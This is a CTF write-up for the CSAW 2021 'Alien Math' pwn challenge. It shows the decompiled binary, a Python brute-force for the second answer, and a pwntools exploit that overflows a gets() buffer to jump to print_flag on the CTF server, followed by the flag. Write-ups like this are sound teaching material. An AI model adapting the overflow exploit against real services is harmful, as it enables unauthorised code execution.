 +++
title = "CSAW CTF Qualification Round 2021 - Alien Math"
date = 2021-09-14
[taxonomies]
tags = ["ctf"]
+++

# Alien Math

## Task description

Brush off your Flirbgarple textbooks!

[alien_math](/files/csawctf2021/alien_math)

## Solution

The application asks 3 questions and while the first two are implemented correctly the 3rd uses `gets`. So, we have to correctly answer to the first two questions and then just do a simple stack buffer overflow. In addition, there's a function called print_flag which prints the flag.

```c
undefined8 main(void)
{
  int iVar1;
  undefined local_38 [36];
  int local_14;
  long local_10;

  puts("\n==== Flirbgarple Math Pop Quiz ====");
  puts("=== Make an A to receive a flag! ===\n");
  puts("What is the square root of zopnol?");
  fflush(stdout);
  __isoc99_scanf(&DAT_0040220b,&local_14);
  iVar1 = rand();
  local_10 = (long)iVar1;
  if (local_10 == (long)local_14) {
    puts("Correct!\n");
    fflush(stdout);
    getchar();
    puts("How many tewgrunbs are in a qorbnorbf?");
    fflush(stdout);
    __isoc99_scanf(&DAT_00402247,local_38);
    second_question(local_38);
  }
  else {
    puts("Incorrect. That\'s an F for you!");
  }
  return 0;
}
```

The first question does `rand()` without setting the seed and the default seed value is 0 (not always, it depends on the implementation). So it's a constant.

```c
void second_question(char *param_1)
{
  char cVar1;
  int iVar2;
  size_t __n;
  ulong uVar3;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  int local_1c;

  local_1c = 0;
  while( true ) {
    uVar3 = SEXT48(local_1c);
    __n = strlen(param_1);
    if (__n - 1 <= uVar3) {
      local_38 = 3762247539570849591;
      local_30 = 3689067348388623672;
      local_28 = 58489707246130;
      __n = strlen((char *)&local_38);
      iVar2 = strncmp((char *)&local_38,param_1,__n);
      if (iVar2 == 0) {
        puts("Genius! One question left...\n");
        final_question();
        puts("Not quite. Double check your calculations.\nYou made a B. So close!\n");
      }
      else {
        puts("You get a C. No flag this time.\n");
      }
      return;
    }
    if ((param_1[local_1c] < '0') || ('9' < param_1[local_1c])) break;
    cVar1 = param_1[(long)local_1c + 1];
    iVar2 = second_question_function
                      ((ulong)(uint)(int)param_1[local_1c],
                       (ulong)(uint)(param_1[local_1c] + local_1c),
                       (ulong)(uint)(param_1[local_1c] + local_1c));
    iVar2 = (int)cVar1 + -0x30 + iVar2;
    param_1[(long)local_1c + 1] = (char)iVar2 + (char)(iVar2 / 10) * -10 + '0';
    local_1c = local_1c + 1;
  }
  puts("Xolplsmorp! Invalid input!\n");
  puts("You get a C. No flag this time.\n");
  return;
}

ulong second_question_function(int param_1,int param_2)
{
  return (ulong)((uint)((param_1 + -0x30) * 0x30 + (param_2 + -0x30) * 0xb + -4) % 10);
}
```

The second question takes a line, does some operations on it and compares with the hardcoded value. The decompiled code is a bit of a bad quality but it could be summarized to this pseudocode:

```py3
input_str = "12345" # only numbers are allowed
for i in range(len(input_str) - 1):
    input_str[i + 1] = do_something(input_str[i], input_str[i + 1])

if input_str == "7759406485255323229225":
    final_question()
```

Which means that we can bruteforce it easily. A thing to note is that the first letter has to be 7 because it can't be modified (modifications start from index 1).

```py3
from string import digits


def second_func(a, b):
    return ((a - 0x30) * 0x30 + (b - 0x30) * 0xB - 4) % 10


def encrypt(input_str):
    input_str = [ord(c) for c in input_str]

    for i in range(len(input_str) - 1):
        c1 = input_str[i + 1]
        c2 = second_func(input_str[i], input_str[i] + i)

        c3 = c1 - 0x30 + c2

        input_str[i + 1] = c3 - (c3 // 10) * 10 + ord("0")

    input_str = [chr(i) for i in input_str]

    return "".join(input_str)


solutions = ["7"]
encrypted = "7759406485255323229225"

for i in range(len(encrypted) - 1):
    new_solutions = []
    for p in solutions:
        for s in digits:
            o = encrypt(p + s)
            if encrypted.startswith(o):
                new_solutions.append(p + s)

    solutions = new_solutions

print(solutions)
```

```c
void final_question(void)
{
  undefined8 local_18;
  undefined8 local_10;

  local_18 = 0;
  local_10 = 0;
  puts(
      "How long does it take for a toblob of energy to be transferred between two quantum entangledsalwzoblrs?"
      );
  fflush(stdout);
  getchar();
  gets((char *)&local_18);
  return;
}
```

The final exploit.

```py3
from pwn import *

# io = process("./alien_math")
io = remote("pwn.chal.csaw.io", 5004)

io.sendline("1804289383".encode())  # first question

io.sendline("7856445899213065428791".encode())  # second question

payload = b"A" * cyclic_find(0x61616167)
payload += p64(0x004014FB)  # print_flag function address
io.sendline(payload)

io.interactive()
```

The flag: `flag{w3fL15n1Rx!_y0u_r34lLy_4R3_@_fL1rBg@rpL3_m4573R!}`
